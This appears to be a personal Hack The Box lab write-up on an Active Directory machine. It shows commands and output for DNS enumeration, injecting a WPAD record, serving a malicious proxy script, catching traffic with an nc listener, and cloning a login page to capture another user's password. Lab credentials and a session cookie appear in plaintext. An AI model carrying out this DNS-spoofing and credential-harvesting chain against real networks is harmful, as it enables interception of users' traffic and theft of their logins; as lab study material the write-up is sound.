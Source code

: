 # Further Enumeration

## DNS
```rust
    ~/HTB/orion/DC ···········································································································································································································
❯ adidnsdump -u orion.smallcorp.htb\\jwallace ldap://192.168.1.2 -r
Password:
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 8 records
```

```rust
❯ cat records.csv
type,name,value
A,web02,192.168.1.19
A,web,192.168.1.13
A,ForestDnsZones,192.168.1.2
A,DomainDnsZones,192.168.1.2
A,dc,192.168.1.2
NS,_msdcs,dc.orion.smallcorp.htb.
NS,@,dc.orion.smallcorp.htb.
A,@,192.168.1.2
```

```rust
❯ adidnsdump -u 'ORION\jwallace' -p 'Ibanezsz@1' --print-zones 192.168.1.2
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Found 2 domain DNS zones:
    orion.smallcorp.htb
    RootDNSServers
[-] Found 2 forest DNS zones (dump with --forest):
    _msdcs.orion.smallcorp.htb
    smallcorp.htb
[-] Found 1 legacy DNS zones (dump with --legacy):
    RootDNSServers
·····················
❯ adidnsdump -u 'ORION\jwallace' -p 'Ibanezsz@1' --forest --zone smallcorp.htb 192.168.1.2
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 3 records
    ~/HTB/orion/DC ···········································································································································································································
❯ cat records.csv
type,name,value
?,wpad,?
A,dc.orion,192.168.1.2
```

wpad???

lets look into this 

https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing#wins-forward-lookup

```rust
python3 dnstool.py -u 'ORION\jwallace' -p 'Ibanezsz@1' --record 'wpad' --zone orion.smallcorp.htb --tcp --action query 192.168.1.2

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found record wpad
DC=wpad,DC=orion.smallcorp.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=orion,DC=smallcorp,DC=htb
[+] Record entry:
 - Type: 1 (A) (Serial: 47)
 - Address: 10.10.14.6
```

injecting my DNS Records
```rust
python3 dnstool.py -u 'ORION\jwallace' -p 'Ibanezsz@1' --record 'wpad' --zone orion.smallcorp.htb --tcp --action add --data 10.10.14.6 192.168.1.2

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

Generate  wpad.dat
```rust
 cat wpad.dat
function FindProxyForURL(url, host) {

    // For all other traffic, use the proxy
    return "PROXY 10.10.14.21:6969";
}
```

Start python web server
```rust
 python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.13.38.11 - - [10/Oct/2024 19:47:37] "GET /wpad.dat HTTP/1.1" 200 -
10.13.38.11 - - [10/Oct/2024 19:48:57] "GET /wpad.dat HTTP/1.1" 200 -
10.13.38.11 - - [10/Oct/2024 19:49:58] "GET /wpad.dat HTTP/1.1" 200 -
10.13.38.11 - - [10/Oct/2024 19:50:59] "GET /wpad.dat HTTP/1.1" 200 -
10.13.38.11 - - [10/Oct/2024 19:51:59] "GET /wpad.dat HTTP/1.1" 200 -
```

Start NC listener 
```rust
 nc -knvlp 6969
listening on [any] 6969 ...
connect to [10.10.14.21] from (UNKNOWN) [10.13.38.11] 29011
GET http://web02.orion.smallcorp.htb:8080/ HTTP/1.1
Host: web02.orion.smallcorp.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: 50aeecc61bd3084ccba2730bb5a47c8f=hokr2659joa0sofrt4hc4qevhr
Upgrade-Insecure-Requests: 1
```

install squid and configure squid /etc/squid/squid.conf
```
http_access allow all
hosts_file /etc/hosts
http_port 3128
```
```

Then copy the webpage source  to your own file and host it on port 8080, I created a /s because i noticed the user was looking for this directory.

```rust
    ~/HTB/orion/mitm/s ····················································································   14m 23s
❯ ls
index.html  login  login.html  s
```

Start both web servers and watch wireshark traffic, then follow the HTTP post. 

![[Pasted image 20241010182716.png]]

URL Decode the !
```rust
username=gkaufmann&_password=eelahX8F!
```
